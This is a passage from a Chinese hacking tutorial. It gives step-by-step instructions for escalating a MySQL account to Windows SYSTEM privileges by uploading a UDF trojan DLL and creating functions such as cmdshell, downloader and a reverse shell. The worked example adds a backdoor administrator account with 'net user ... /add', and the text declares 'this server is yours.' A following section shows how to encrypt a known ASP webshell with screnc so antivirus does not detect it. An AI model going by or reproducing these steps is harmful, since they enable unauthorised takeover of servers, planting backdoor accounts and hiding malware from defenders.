

### 使用说明

- 功能：利用 MYSQL 的 Create Function 语句，将 MYSQL 账号转化为系统 system 权限。
- 适用场合：
  - 目标系统是 Windows（Win2000、XP、Win2003）；
  - 你已经拥有 MYSQL 的某个用户账号，此账号必须有对 mysql 的 insert 和 delete 权限以创建和抛弃函数（MYSQL 文档原语）。

- 使用帮助：
  - 第一步：将本文件上传到目标机上，填入你的 MYSQL 账号进行连接。
  - 第二步：连接成功后，导出 DLL 文件，导出时请务必注意导出路径（一般情况下对任何目录可写，无需考虑权限问题）。对于 MYSQL 5.0 以上版本，你必须将 DLL 导出到目标机器的系统目录（win 或 system32），否则在下一步操作中你会看到“No paths allowed for shared library”错误。
  - 第三步：使用 SQL 语句创建功能函数，语法：Create Function 函数名 returns string soname '导出的DLL路径'；
    对于 MYSQL 5.0 以上版本，语句中的 DLL 不允许带全路径，如果你在第二步中已将 DLL 导出到系统目录，那么你就可以省略路径而使命令正常执行，否则你将会看到“Can't open shared library”错误，这时你必须将 DLL 重新导出到系统目录。
  - 第四步：正确创建功能函数后，你就可以用 SQL 语句来使用这些功能了。语法：select 创建的函数名('参数列表')；
    每个函数有不同的参数，你可以使用“select 创建的函数名('help');”来获得指定函数的参数列表信息。
  - 第五步：使用完成后你可能需要删除在第二步中导出的 DLL，但在删除 DLL 前请先删除你在第三步中创建的函数，否则删除操作将失败。删除第三步中创建的函数的 SQL 语句为：drop function 创建的函数名；

### 功能函数说明

- cmdshell：执行 cmd；
- downloader：下载者，到网上下载指定文件并保存到指定目录；
- open3389：通用开 3389 终端服务，可指定端口（不改端口无需重启）；
- backshell：反弹 Shell，ProcessView 枚举系统进程；
- KillProcess：终止指定进程；
- regread：读注册表；

- regwrite：写注册表；
- shut：关机、注销、重启；
- about：说明与帮助函数；

这份说明写得非常详细，我们按照提示来一步步操作。现在已经在第一步中连接数据库成功，接着要做的是第二步，导出 dll。前面提示 MYSQL 5.0 要导出到系统目录，系统目录指的 system32 目录，我们就导出到 `c:\windows\system32` 目录。

如果导出成功，在木马上会有回显，如图 7；如果失败，检查一下输入是否正确，也有可能 system32 目录下已经存在一个名为 udf.dll 的文件了，这时需要把导出的文件名换个名字。

接下来是把 dll 映射到函数里，语法是：`Create Function 函数名 returns string soname '导出的DLL路径';`

第三步中提到，在 MYSQL 5.0 以上版本中不能输入路径，那么这里我们只输入导出的文件名 udf.dll 即可。另外注意语句的最后，是有一个分号的！

我建立的函数名叫 cmdshell，这个函数名不能乱取，必须是前面第 4 点中的功能函数说明里的名字。因为指定不同的函数名，该木马就会绑定不同功能的函数。例如生成的函数名为 cmdshell，那出现的函数就只能执行 cmd 命令，killprocess 就只能杀进程。

如果执行后返回如图 8 的结果，表示函数已经建立成功了，我们可以输入命令：`Select cmdshell('help');` 来查看如何使用这个函数，也请不要忘了语句后面的分号哦，命令执行后的返回结果如图 9。









在返回的结果中列举了使用方法，现在我们就用这个 cmdshell 函数来建立刚才没有建成功的 nohack 账号。在 SQL 命令处输入：`select cmdshell('net user nohack hack123456 /add');`，返回结果如图 10。

我们可以看到命令执行成功，再执行一条命令来看看是否建立成功，返回结果如图 11。

OK，从返回的结果中清楚地看到了 nohack 账号建立成功，提权顺利完成，现在有了管理员权限，这台服务器就是你的了！



## 十、webshell 自主免杀

学习网络安全技术的朋友在做安全测试时都少不了与 webshell 打交道，webshell 中的种种网站管理功能十分强大，获得了一个网站的 webshell 才算是取得了网站的控制权。正因为 webshell 的影响力如此之大，各种杀毒软件也把 webshell 木马列为重点打击目标，我们来看看著名 web 木马“海洋顶端 2006 版”在世界杀毒网上的检测结果。

（注：世界杀毒网是一个检测程序是否感染木马病毒的网站，它的特点是集合了全球几乎所有常见的杀毒软件对程序进行检测，并把检测结果反馈给用户，网址为 http://www.virustotal.com。）



进入网站后，点击“浏览”，选择要检测的文件，如图 1。  
如果本地安装有杀毒软件，导致你无法上传带有木马的文件，就选中“使用安全方式（SSL）传输”。上传后稍等片刻，结果就出来了，如图 2。  
点击下面的“显示最新报告”，如图 3，能看到提交的程序被多少杀毒软件所查杀。  
一共进行了 36 种杀毒软件的检测，其中 26 种能查杀提交的程序，这还包括国内服务器常用的“麦咖啡”、瑞星、诺顿等。看来如果不修改一下我们心爱的 webshell，难逃被杀毒软件查杀的命运。



对于 asp、php 等脚本类 web 木马的防杀，有一些很简单的方法，比如最常见的就是给脚本进行加密。加密后原有的关键字特征符被打乱了，这在一定程度上能起到防杀的作用。但是“魔高一尺，道高一丈”，很快杀毒软件也进行了改进，能查杀加密后的代码。

这里我们先把“海洋顶端 2006 版”进行加密，看看效果如何。进行脚本加密的工具在网上一搜就有许多，不过我劝大家在下载后使用时注意下，以个人经验，这种加密类的工具很多绑有木马。大多数工具从原理上来讲，基本都使用了微软出品的脚本加密器 screnc，只不过进行些修改，加上图形界面罢了。

| 反病毒引擎 | 版本 | 最后更新 | 扫描结果 |
|---|---|---|---|
| AhnLab-V3 | - | - | ASP/Ace |
| AntiVir | - | - | BDS/ASP.Ace.W |
| Authenium | - | - | ASP/Ace.T |
| Avast | - | - | VBS:Malware-gen |
| AVG | - | - | - |
| BitDefender | - | - | Backdoor.Asp.Ace.W |
| CAT-QuickHeal | - | - | - |
| ClamAV | - | - | Trojan.ASP.Ace-9 |
| DrWeb | - | - | BackDoor.Marcos |
| eSafe | - | - | - |
| eTrust-Vet | - | - | VBS/Ace |
| Ewido | - | - | Backdoor.Ace.aq |
| F-Prot | - | - | ASP/Ace.T |
| F-Secure | - | - | Backdoor.ASP.Ace.aw |
| Fortinet | - | - | HTML/Ace.T!tr |
| GData | - | - | Backdoor.Asp.Ace.W |
| Ikarus | - | - | Backdoor.ASP.Ace.bq |
| K7AntiVirus | - | - | - |
| Kaspersky | - | - | Backdoor.ASP.Ace.aw |
| McAfee | - | - | IIS/BackDoor-Ace |
| Microsoft | - | - | Backdoor:ASP/Ace |
| NOD32 | - | - | ASP/Ace.T |
| Norman | - | - | HTML/Ace.AU |
| Panda | - | - | Bck/Ace.G |
| PCTools | - | - | - |
| Prevx1 | - | - | System Back Door |



下面我们来使用 screnc 对 asp 木马进行加密，首先把两者放在同一目录下，如图 4。在 CMD 模式下输入 screnc，看看工具的使用帮助吧，如图 5。

```text
screnc [/s] [/f] [/xl] [/l defLanguage ] [/e defExtension]
inputfile outputfile
```

其中的参数含义如下：

- s：屏蔽屏幕输出；
- f：指定输出文件是否覆盖同名输入文件；
- xl：是否在 .asp 文件的顶部添加 @Language 指令；
- l：defLanguage 指定缺省的脚本语言；
- e：defExtension 指定待加密文件的扩展名。



这个工具可以批量加密文件，比如对当前目录中的所有 ASP 文件进行加密，并把加密后的文件统一输出到相应的目录中，例如输入命令：`screnc *.asp c:\temp`。

其实大多数情况下什么参数也不用，比如直接输入：`Screnc 2006.asp 2006jm.asp`，2006.asp 是要加密的文件名，2006jm.asp 是加密后生成的文件名。执行完成后再进入刚才工具的目录，可以看到多出了一个 2006jm.asp 文件，用记事本打开看看，内容中多了很多乱码和奇怪的字符，如图 6，这样就加密成功了。

